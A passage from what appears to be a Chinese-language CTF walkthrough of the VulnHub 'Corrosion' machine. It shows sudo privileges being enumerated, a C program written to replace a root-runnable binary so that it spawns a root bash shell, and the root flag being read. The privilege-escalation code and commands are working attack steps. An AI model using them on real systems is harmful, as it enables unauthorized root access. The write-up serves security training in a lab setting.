     ```python
    randy@corrosion:~/tools$ sudo -l                                                                                                                                          
    Matching Defaults entries for randy on corrosion:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User randy may run the following commands on corrosion:
        (root) PASSWD: /home/randy/tools/easysysinfo
    ```
    
8. 因为我们可以`(root) PASSWD: /home/randy/tools/easysysinfo` 所以我们自己写一个c的提权文件替换原本的文件即可
    
    ```python
    # #easysysinfo.c
    #include <unistd.h>
    #include <stdlib.h>
    
    void main(){ 
            setuid(0);
            setgid(0);
            system("bash -i");
    }
    ```
    
    然后编译该C语言文件
    
    ```python
    gcc easysysinfo.c -o easysysinfo
    ```
    
    执行
    
    ```python
    randy@corrosion:~/tools$ sudo /home/randy/tools/easysysinfo
    root@corrosion:/home/randy/tools# 
    ```
    
    获得root！！！
    
9. 读取flag文件
    
    ```python
    root@corrosion:~# cat root.txt 
    FLAG: 4NJSA99SD7922197D7S90PLAWE 
    
    Congrats! Hope you enjoyed my first machine posted on VulnHub! 
    Ping me on twitter @proxyprgrammer for any suggestions.
    
    Youtube: https://www.youtube.com/c/ProxyProgrammer
    Twitter: https://twitter.com/proxyprgrammer
    ```
    

## 总结

学到了思路，污染`auth.log`文件等